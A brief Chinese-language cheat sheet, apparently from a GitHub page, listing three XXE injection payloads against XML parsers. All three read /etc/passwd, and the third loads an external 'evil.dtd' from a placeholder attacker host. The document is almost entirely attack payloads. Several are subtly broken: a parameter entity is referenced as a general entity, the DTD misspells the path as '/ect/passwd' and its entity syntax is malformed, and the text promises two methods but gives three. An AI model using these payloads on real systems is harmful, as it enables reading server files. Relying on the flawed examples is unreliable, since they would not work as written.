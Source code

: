 ## XXE 有回显利用方式总结

结合外部实体声明（实体名称 SYSTEM ”uri/url“）和参数实体（% 实体名称 SYSTEM “uri-外部dtd”）有两种方式进行注入攻击

### 姿势一

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT name ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root>
    <name>&xxe;</name>
</root>

```

### 姿势二

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>

```

### 姿势三

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo>

```

##### 外部evil.dtd的内容

```xml
<!ENTITY %evil SYSTEM "file:///ect/passwd">

```

